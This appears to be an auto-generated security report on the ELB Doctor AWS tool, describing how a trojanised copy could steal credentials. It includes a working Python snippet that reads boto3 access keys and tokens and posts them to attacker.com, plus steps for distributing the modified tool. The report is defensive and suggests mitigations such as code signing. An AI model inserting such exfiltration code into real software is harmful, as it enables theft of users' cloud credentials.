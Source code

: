 ## Combined Vulnerability List

The following vulnerability has been identified across the provided lists.

### Vulnerability: Credential Exfiltration via Social Engineering

*   **Description:**
    1.  An attacker creates a modified version of the ELB Doctor tool.
    2.  This modified version includes malicious code designed to exfiltrate AWS credentials. This code could be added to any part of the application, for example, within the `elb_doctor/api/elb_doctor_api.py` file when making AWS API calls using `boto3`. The malicious code could capture the AWS credentials configured in the user's environment (e.g., environment variables, AWS configuration files, IAM roles assumed by CloudShell).
    3.  The attacker hosts this modified version on a public platform, or distributes it through social engineering tactics, such as emails, forum posts, or fake repositories, tricking users into downloading and using the malicious tool instead of the legitimate one.
    4.  A user, believing they are downloading the legitimate ELB Doctor tool, downloads and installs the attacker's modified version.
    5.  The user executes the modified ELB Doctor tool.
    6.  As the tool runs and interacts with AWS, the malicious code within the tool executes in the background.
    7.  This malicious code exfiltrates the user's AWS credentials to a server controlled by the attacker. This could be done through various methods, such as sending the credentials via HTTP requests, DNS queries, or other network protocols.
    8.  The attacker now has access to the user's AWS account with the permissions associated with the exfiltrated credentials.

*   **Impact:**
    -   **High Impact:** If successful, this vulnerability allows an attacker to gain unauthorized access to the victim's AWS account. The level of access depends on the permissions associated with the compromised AWS credentials. In the context of ELB Doctor, the tool requires IAM permissions to describe Elastic Load Balancers and Target Group health. If the compromised credentials have broader permissions, the attacker's impact could be significantly greater, potentially including data breaches, resource manipulation, or financial losses through unauthorized resource usage.

*   **Vulnerability Rank:** High

*   **Currently Implemented Mitigations:**
    -   The project uses `git-secrets` as a pre-commit hook to prevent accidental committing of credentials into the repository. This mitigation is described in `CONTRIBUTING.md`. However, this does not mitigate the social engineering vulnerability itself, but rather prevents developers from accidentally introducing secrets into the codebase.
    -   The `README.md` recommends using AWS CloudShell, which is a more secure environment as it manages credentials automatically and reduces the risk of exposing them directly. However, users may still choose to run the tool locally with configured credentials.
    -   The `SECURITY.md` file (mentioned in `README.md`) and `CONTRIBUTING.md#security-issue-notifications` encourage users to report security issues through AWS vulnerability reporting page instead of public GitHub issues. This is a standard security practice, but not a direct mitigation for social engineering.

*   **Missing Mitigations:**
    -   **Code Signing:** Implementing code signing for releases would allow users to verify the authenticity and integrity of the ELB Doctor tool, ensuring that they are running the official version and not a modified malicious one.
    -   **Distribution through Trusted Channels:** Publishing ELB Doctor to trusted package repositories like PyPI would significantly reduce the risk of users downloading compromised versions from unofficial sources. The `README.md` mentions plans to publish to PyPI in the future.
    -   **Security Warnings in Documentation:** Explicitly adding security warnings in the `README.md` and documentation about the risks of downloading and running software from untrusted sources, and advising users to only download the tool from the official repository or trusted package repositories, would increase user awareness.
    -   **Input Validation and Sanitization:** While not directly related to credential exfiltration, robust input validation and sanitization throughout the code can prevent other types of vulnerabilities that might be introduced in modified versions, making it harder for attackers to bundle other exploits with credential theft.

*   **Preconditions:**
    -   An attacker must be able to modify the ELB Doctor code and create a malicious version.
    -   The attacker must successfully socially engineer a user into downloading and running the malicious version instead of the legitimate one.
    -   The user must have AWS credentials configured in their environment for the ELB Doctor tool to use.

*   **Source Code Analysis:**
    -   The provided code files do not contain any explicit vulnerability related to credential exfiltration *within the original code itself*. The vulnerability arises from the *potential modification* of the code by an attacker.
    -   The tool, as designed, is intended to interact with AWS services using the AWS SDK for Python (boto3). This inherently requires AWS credentials to be configured in the environment where the tool is executed.
    -   In files like `elb_doctor/api/elb_doctor_api.py`, the `boto3` library is used to make calls to AWS APIs (e.g., `GetElbs().get_elb(config)`).  A malicious modification could be inserted at any point where AWS API calls are made. For instance, before or after making an API call, code could be added to access the AWS credentials being used by `boto3` and send them to an attacker-controlled server.
    -   Example of malicious code insertion in `elb_doctor/api/elb_doctor_api.py` (conceptual, for demonstration):

    ```python
    import boto3
    import requests # for exfiltration

    class ElbDoctorApi:
        # ... other methods ...

        def retrieve_clbs(self,answers) -> Dict:
            # ... region config ...
            config = Config(...)

            # --- Malicious code starts ---
            try:
                session = boto3.Session()
                credentials = session.get_credentials()
                if credentials:
                    access_key = credentials.access_key
                    secret_key = credentials.secret_key
                    token = credentials.token
                    exfiltration_url = "http://attacker.com/receive_creds"
                    payload = {
                        "access_key": access_key,
                        "secret_key": secret_key,
                        "token": token
                    }
                    requests.post(exfiltration_url, json=payload)
                    print("Credentials exfiltrated (simulated)") # attacker might want to be stealthier
            except Exception as e:
                print(f"Credential exfiltration failed: {e}")
            # --- Malicious code ends ---

            all_clbs = GetElbs().get_elb(config) # Original code continues
            # ... rest of the method ...
    ```
    -   This conceptual example shows how easily malicious code can be inserted to steal credentials. The attacker could make it more sophisticated to avoid detection.

*   **Security Test Case:**
    1.  **Setup Attacker Environment:**
        -   Create a simple HTTP server (e.g., using Python's `http.server` or `ngrok` for public exposure) to receive exfiltrated credentials. Note down the server's URL.
        -   Modify a copy of the `elb-doctor` code by inserting malicious code similar to the example above in `elb_doctor/api/elb_doctor_api.py` within the `retrieve_clbs` function (or any other relevant function that gets called during normal tool execution). Replace `"http://attacker.com/receive_creds"` with the URL of your attacker server.
        -   Package this modified version into a distributable format (e.g., zip file, or create a fake GitHub repository).

    2.  **Victim Setup:**
        -   Set up AWS credentials in a way that `boto3` can access them (e.g., using environment variables, AWS CLI configuration, or IAM roles if testing in an EC2 instance or CloudShell). Ensure these credentials have the necessary permissions for ELB Doctor to function (as described in IAM Permissions section of `README.md`).
        -   Download the *malicious* version of ELB Doctor from the attacker's distribution point (this simulates the social engineering part - the user is tricked into downloading the wrong version).
        -   Install the malicious ELB Doctor (e.g., using `python3 -m pip install .` if packaged as a Python package, or simply running the script if distributed as standalone files).

    3.  **Execute the Malicious Tool:**
        -   Run the `elbdoc` command (or the equivalent execution command for the modified version).
        -   Interact with the tool as a normal user would, for example, select an AWS region and ELB type. This will trigger the execution of the malicious code.

    4.  **Verify Credential Exfiltration:**
        -   Check the logs of your attacker's HTTP server. You should see a POST request containing the AWS credentials (access key, secret key, and potentially session token) sent from the victim's machine.

    5.  **Cleanup:**
        -   Remove the malicious ELB Doctor from the victim's system.
        -   Rotate or invalidate the AWS credentials that were used in the test, as they are now potentially compromised.

This test case, if successful, demonstrates that a modified version of ELB Doctor can indeed exfiltrate AWS credentials, confirming the social engineering vulnerability.